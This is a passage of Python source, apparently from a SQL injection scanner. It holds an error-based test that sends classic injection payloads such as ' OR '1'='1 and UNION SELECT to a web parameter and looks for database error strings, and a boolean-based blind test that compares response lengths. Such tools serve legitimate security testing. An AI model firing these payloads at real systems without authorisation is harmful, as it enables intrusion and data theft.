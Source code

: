 ```python
        
        error_payloads = [
            "'",
            "''",
            "' OR '1'='1",
            "' AND '1'='2",
            "' UNION SELECT 1--",
            "'; SELECT 1--"
        ]
        
        for payload in error_payloads:
            try:
                params = {parameter: payload}
                response = self.session.get(f"{self.base_url}{endpoint}", params=params)
                
                # Check for SQL error indicators
                error_indicators = [
                    'syntax error',
                    'mysql_fetch',
                    'postgresql',
                    'ora-',
                    'microsoft jet database',
                    'sqlite_',
                    'sqlstate'
                ]
                
                response_text = response.text.lower()
                for indicator in error_indicators:
                    if indicator in response_text:
                        print(f"  ✓ SQL Error detected with payload: {payload}")
                        print(f"    Error indicator: {indicator}")
                        return True
                        
            except Exception as e:
                print(f"  ✗ Error testing payload {payload}: {e}")
        
        return False
    
    def test_boolean_based_injection(self, endpoint, parameter):
        """Test for boolean-based blind SQL injection"""
        print(f"\n[+] Testing boolean-based injection on {endpoint}")
        
        # Baseline request
        baseline_response = self.session.get(f"{self.base_url}{endpoint}", 
                                           params={parameter: "test"})
        baseline_length = len(baseline_response.text)
        
        # True condition test
        true_payload = "test' OR '1'='1"
        true_response = self.session.get(f"{self.base_url}{endpoint}", 
                                       params={parameter: true_payload})
        
        # False condition test
        false_payload = "test' AND '1'='2"
        false_response = self.session.get(f"{self.base_url}{endpoint}", 
                                        params={parameter: false_payload})
        
        # Compare response lengths
        if len(true_response.text) != len(false_response.text):
            print(f"  ✓ Boolean-based injection detected")
            print(f"    True condition length: {len(true_response.text)}")
            print(f"    False condition length: {len(false_response.text)}")
            return True
```